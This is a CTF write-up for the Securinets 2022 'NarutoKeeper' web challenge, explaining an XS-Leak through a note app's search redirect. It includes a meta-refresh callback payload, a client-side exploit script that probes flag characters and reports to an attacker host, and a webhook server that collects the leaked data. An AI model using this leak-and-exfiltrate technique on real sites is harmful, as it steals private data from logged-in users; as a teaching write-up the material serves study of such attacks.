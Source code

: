 ```yaml
---
title: NarutoKeeper - Securinets CTF Quals 2022
date: 2022-04-14 10:57:25
author: ma1f0y
author_url: https://twitter.com/mal_f0y
categories:
  - Web
tags:
  - SecurinetsCTFQuals
  - XS-Leak
  - XSS
  - CSP
---
```


**tl;dr**

+ Create a note with meta redirect tag to get callback.
+ Leak the flag using search functionality.

<!--more-->

**Challenge points**: 996
**No. of solves**: 8
**Solved by**: [ma1f0y](https://twitter.com/mal_f0y) ,[yadhuz](https://twitter.com/YadhuKrishna_)

## Challenge Description

I was confused and didn't know what's the approproate name for this website :( However just a typical note keeper website \o/ Enjoy the ride :)

## Intro

This was an interesting XS-Leaks challenge from Securinets CTF qualfiiers, which had the least number of solves among web challenges. 

## Analysis

In this challenge, we were given a note creating app and there was a search functionality where we can search note content. This seemed like a place to look for bugs like XS-Leaks.

The source code for search endpoint is given below. 

```python
@app.route('/search')
def search():

    if 'username' not in session:
        return redirect('/login')

    if 'query' not in request.args:
        return redirect('/home')

    query = str(request.args.get('query'))
    results = get_pastes(session['username'])
    res_content=[{"id":id,"val":get_paste(id)} for id in results]

    if ":" in query:
        toGo=get_paste(query.split(":")[1])
        sear=query.split(":")[0]
    else:
        toGo=res_content[0]["val"]
        sear=query

    i=0

    for paste in res_content:
        i=i+1
        if i>5:
            return redirect("/view?id=MaximumReached&paste="+toGo.strip())

        if sear in paste["val"]:
            return redirect("/view?id=Found&paste="+toGo.strip())

    return render_template("search.html",error='No results found.',result="")
```

The following happens when a request is made to `/search` endpoint.

1. The `query` argument is split based on `:`.
2. First part of `query` is the note content which will be searched in current user's note. 
3. The second part of `query` is a note id, to which the user will be redirected to when a note which matches the search is found. 

Thus, the query argument takes the following format. 

`/search?query=substring:note_id`

It is also to be noted that HTML can be inserted as a note, but there is a strict CSP which blocks us from executing JavaScript.

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self';object-src 'none'">
```

## Exploit

To exploit, we can use the `/search` endpoint. We check if there's any note that contains a particular string and if present, we redirect to a note that contains an HTML code that can give the webhook server a callback.

This can be done using a `<meta>` refresh tag. 

```html
<meta http-equiv="refresh" content="0;url=http://site/webhook">
```

However, there was a timeout which limits the time that bot stays in the given URL.

```javascript
await page2.goto(website,{
        waitUntil: 'networkidle0',  
        timeout:60000
}); // Opens page as logged user
```

But, `waitUntil: 'networkidle0'` means the bot will wait until there is no network connection for at least 500ms. So, it is possible to we can load a image which will delay the timeout.



## Exploit Script

+ Client-Side Exploit

```html
<!DOCTYPE html>
<html>
    <body>
    <script>

         function sleep(ms) {
                return new Promise(resolve => setTimeout(resolve, ms));
            }

        chars="_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}"
        char=""
        webhookid="HNDMTOGDSWTAPQH397PIXAXKZ79QUWHQSE96RVSU6C5PZGGN5G5Z5L3R1FQN3FTJ"
        window.webHook = "http://attacker_site/"
        window.url=`https://20.124.0.135/search?query=Securinets{${char}:${webhookid}`
        var temp= document.createElement("iframe")
        temp.setAttribute("src", url)
        document.body.appendChild(temp)
        let know = "Securinets{"
        async function checker(){
            for(var i=0; i<chars.length; i++){
                char=Known+chars[i];
                await fetch('/log?current='+char)
                temp.src=`https://20.124.0.135/search?query=${char}:${webhookid}`
                await sleep(3000);
                let resp = await fetch('/progress')
                let found = await resp.text()
                if(found != know){
                    know = found
                    return;
                }

            }
        }
        while (know[-1] != '}'){
            checker();         
        }

    </script>
        <img src="http://sleep_url/"> <!-- Sleeps infinitely -->
    </body>
</html>
```

+ Webhook Server

```python
from flask import Flask,request,render_template,session,redirect

app = Flask(__name__)

found = ""
letter = ""

@app.route("/")
def welcome():
    return render_template("index.html")

@app.route("/log")
def log():
    global found, letter
    letter = request.args.get("current")
    return found

@app.route("/webhook")
def webhook():
    global found, letter
    found = found + letter
    return found

@app.route("/progress")
def progress():
    global found
    return found

if __name__=="__main__":
    app.run(host="0.0.0.0", debug=True, port=8085)

```

With the above exploit, whenever a note that matches a substring of the flag, the bot gets redirected to a webhook server. 

There were many interesting solutions for this challenge like abuse the redirect in the search with fetch redirect limit. Solving this challenge was fun and learnt a lot with it.

## Flag

```
Securinets{ArigAt0}
```